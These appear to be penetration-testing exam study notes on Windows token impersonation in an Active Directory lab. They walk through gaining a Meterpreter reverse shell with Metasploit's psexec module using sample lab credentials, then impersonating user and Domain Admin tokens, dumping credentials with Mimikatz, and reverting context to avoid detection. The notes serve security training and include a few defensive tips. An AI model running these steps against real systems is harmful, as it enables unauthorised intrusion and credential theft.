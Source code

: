 # Token Impersonation Overview

### 🛡️ **Token Impersonation Overview** 🛡️

---

### 📝 **Summary**:

Tokens are **temporary keys** that allow users or processes to access systems or networks **without re-entering credentials**. Think of them like **cookies for computers**—once you have a token, you can access files and services without constantly logging in again. Token impersonation can be abused by attackers to gain higher-level privileges, particularly in **Active Directory (AD)** environments.

**Two Types of Tokens**:

1. **Delegation Token**: Used for **interactive logins**, such as when you log into a machine via **Remote Desktop**.
2. **Impersonation Token**: Used for **non-interactive tasks**, such as attaching a network drive or running a domain logon script.

Attackers can impersonate these tokens to gain access to privileged accounts and potentially **run malicious actions** on a system, such as dumping credentials using tools like **Mimikatz**.

---

### 💻 **Detailed Notes**:

### **1. Gaining Shell Access through `psexec` (Prerequisite for Token Impersonation)**

1. **Launching Metasploit**:
    - Open Kali Linux terminal:
        
        ```bash
        msfconsole
        
        ```
        
    - Search for `psexec` exploit:
        
        ```bash
        search psexec
        
        ```
        
    - Use the `exploit/windows/smb/psexec` module:
        
        ```bash
        use exploit/windows/smb/psexec
        
        ```
        
2. **Setting the Payload**:
    - Use the 64-bit payload (since most target machines are 64-bit):
        
        ```bash
        set payload windows/x64/meterpreter/reverse_tcp
        
        ```
        
3. **Configuring Exploit Parameters**:
    - Set your local machine's IP (LHOST):
        
        ```bash
        set LHOST [Your IP]
        
        ```
        
    - Set the target machine’s IP (RHOST):
        
        ```bash
        set RHOSTS [Target IP]
        
        ```
        
    - Set domain, username, and password for the target:
        
        ```bash
        set smbdomain MARVEL.local
        set smbuser fcastle
        set smbpass Password1
        
        ```
        
4. **Running the Exploit**:
    - Execute the attack:
        
        ```bash
        run
        
        ```
        
    - Once successful, you will get a **Meterpreter** session.

### **2. Token Impersonation in Metasploit**

1. **Impersonating a Token**:
    - After gaining a Meterpreter session, use the `impersonate_token` command to impersonate another user’s token:
        
        ```bash
        meterpreter > impersonate_token marvel\\\\fcastle
        [+] Delegation token available
        [+] Successfully impersonated user MARVEL\\\\fcastle
        
        ```
        
    - This command makes you impersonate the user `fcastle` on the `MARVEL` domain.
2. **Verify Impersonation**:
    - To verify, drop into a shell and check the user context:
        
        ```bash
        meterpreter > shell
        process 1520 created
        channel 1 created
        c:\\\\Windows\\\\system32>whoami
        marvel\\\\fcastle
        
        ```
        
    - **Outcome**: The attacker is now operating as the domain user `fcastle` with their permissions and access.

### **3. Impersonating a Domain Admin**

- If you identify a **Domain Admin token**, you can impersonate that token to gain high-level privileges.
- Once impersonated, you can run tools like **Mimikatz** to dump credentials:
    
    ```bash
    meterpreter > shell
    c:\\\\Windows\\\\system32>mimikatz
    
    ```
    
- This can lead to a **compromise of sensitive data** like password hashes, allowing further escalation.

---

### **4. Listing Tokens and Reverting to Self in Meterpreter**

### **Listing Available Tokens:**

- **Command**: To see what tokens are available for impersonation, use:
    
    ```bash
    meterpreter > list_tokens -g
    
    ```
    
- **Purpose**: This command lists all the tokens available in the current session, separated by groups. It includes **delegation** and **impersonation tokens** that can be used to gain higher privileges.
- **Example Output**:
    
    ```
    Available tokens:
    Delegation Tokens:
        No delegation tokens available.
    
    Impersonation Tokens:
        [*] MARVEL\\\\Administrator
        [*] MARVEL\\\\fcastle
    
    ```
    
- **Key Tip**: Look out for high-privilege tokens (e.g., `Administrator`, `Domain Admin`) in the impersonation list to maximize the impact of your attack.

### **Reverting to Self (`rev2self`):**

- **Command**: To revert back to the original user context, use:
    
    ```bash
    meterpreter > rev2self
    
    ```
    
- **Purpose**: This command **reverts your user context** to the original account that you were using when the session was created.
- **Why Use It**: This is useful if you want to drop elevated privileges after using a token, especially if you want to avoid detection or return to the default session state before performing other actions.
- **Key Tip**: After impersonating a token and completing your actions, use `rev2self` to go back to the original user context and continue further enumeration or exploitation.

---

---

### 💡 **Abbreviations & Definitions**:

- **Token**: A **temporary key** representing a user’s identity and permissions.
- **Delegation Token**: A token used for **interactive logins** (e.g., logging into a machine via **RDP**).
- **Impersonation Token**: A token used for **non-interactive tasks** (e.g., running scripts, connecting to a network drive).
- **`psexec`**: A tool used to execute processes on remote systems using SMB.
- **Mimikatz**: A tool used by attackers to **dump credentials** like passwords and hashes from a Windows system.

---

### 🚨 **Critical Mentions & Exam Traps**:

- **Using `psexec`**: Before attempting token impersonation, ensure you have a **Meterpreter session** by using `psexec` or another exploitation method.
- **Impersonating a Token**: You don't need the actual credentials to impersonate a user; you just need access to an available token. This makes token-based attacks highly effective.
- **Watch for High-Privilege Tokens**: 🚨 **Domain Admin tokens** are particularly dangerous if impersonated. Ensure these tokens are closely monitored and secured.
- **Non-Interactive Tasks**: Impersonation tokens are tied to background tasks, making them **low-profile targets** for attackers seeking to evade detection.

💡 **Pro Tip**: Regularly **monitor token usage** and prevent unnecessary delegation of high-privilege tokens to mitigate the risk of token impersonation attacks.

---

### **Final Exam Tips** 📝:

- **Understand the Prerequisite**: Know how to use **`psexec`** to gain initial access before attempting token impersonation.
- **Impersonation Process**: Focus on how attackers use the `impersonate_token` command to escalate privileges within a compromised system.
- **High-Privilege Tokens**: Be aware of the importance of identifying and protecting **high-privilege tokens** (like Domain Admins) in the network.

---